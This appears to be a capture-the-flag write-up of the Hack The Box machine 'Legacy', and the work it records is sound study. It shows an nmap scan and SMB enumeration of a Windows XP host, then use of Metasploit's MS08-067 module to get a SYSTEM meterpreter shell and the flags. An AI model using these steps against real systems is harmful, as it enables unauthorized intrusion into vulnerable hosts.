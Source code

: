 # Legacy 10.10.10.4 - Windows

# 00 - Initial Attempt, 05/04/20

`nmap -sC -sV -oA legacy -Pn 10.10.10.4`

```shell
thoth@kali:~/Projects/htb-notes/machines/Legacy/dumps$ nmap -sC -sV -Pn 10.10.10.4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 20:05 EDT
Nmap scan report for 10.10.10.4
Host is up (0.029s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h26m27s, deviation: 2h07m17s, median: -5h56m28s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:ff:cb (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-05-05T00:08:46+03:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 63.38 seconds
```

#### Initial Ideas and Reactions

 - Windows XP machine
 - port 139 is smb server
  - message signing disabled, guest account, auth level user
 - 445 Windows File Sharing and other MS services
 - 3389 CLOSED ms-wbt-server


Attempted to use `smbclient -L` along with `-U`, `-p`, `-I` etc to try to connect to 139 and 445. No dice. Ran `msfconsole` and `/scanner/smb/smb_version`:

```shell
msf5 auxiliary(scanner/smb/smb_version) > run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB ) (signatures:optional)
```

Following along with CyberMentor I `msf5 > search windows/smb` and `use windows/smb/ms08_067_netap`

```powershell
meterpreter > sysinfo
Computer        : LEGACY
OS              : Windows XP (5.1 Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

From here I was able to navigate to `C:\Documents and Settings\john\Desktop` to find the user flag. And into `Administrator` for the root flag.